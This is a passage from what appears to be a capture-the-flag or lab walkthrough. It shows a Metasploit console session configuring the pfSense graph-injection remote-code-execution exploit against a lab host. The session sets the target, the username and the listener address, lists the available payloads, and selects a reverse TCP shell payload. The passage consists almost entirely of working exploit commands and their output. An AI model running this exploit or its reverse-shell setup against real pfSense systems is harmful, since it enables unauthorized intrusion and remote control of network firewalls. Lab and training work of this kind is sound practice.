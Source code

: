 ```
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-
                                        Metasploit
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(unix/http/pfsense_graph_injection_exec) > set rhosts 10.10.10.60
rhosts => 10.10.10.60
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set username rohit
username => rohit
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set lhost 10.10.14.20
lhost => 10.10.14.20
msf6 exploit(unix/http/pfsense_graph_injection_exec) > show payloads

Compatible Payloads
===================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  payload/generic/custom                                     normal  No     Custom Payload
   1  payload/generic/shell_reverse_tcp                          normal  No     Generic Command Shell, Reverse TCP Inline
   2  payload/multi/meterpreter/reverse_http                     normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTP Stager (Multiple Architectures)
   3  payload/multi/meterpreter/reverse_https                    normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTPS Stager (Multiple Architectures)
   4  payload/php/download_exec                                  normal  No     PHP Executable Download and Execute
   5  payload/php/exec                                           normal  No     PHP Execute Command
   6  payload/php/meterpreter/reverse_tcp                        normal  No     PHP Meterpreter, PHP Reverse TCP Stager
   7  payload/php/meterpreter/reverse_tcp_uuid                   normal  No     PHP Meterpreter, PHP Reverse TCP Stager
   8  payload/php/reverse_perl                                   normal  No     PHP Command, Double Reverse TCP Connection (via Perl)
   9  payload/php/reverse_php                                    normal  No     PHP Command Shell, Reverse TCP (via PHP)

msf6 exploit(unix/http/pfsense_graph_injection_exec) > set payload 1
payload => generic/shell_reverse_tcp
msf6 exploit(unix/http/pfsense_graph_injection_exec) > show options

Module options (exploit/unix/http/pfsense_graph_injection_exec):
```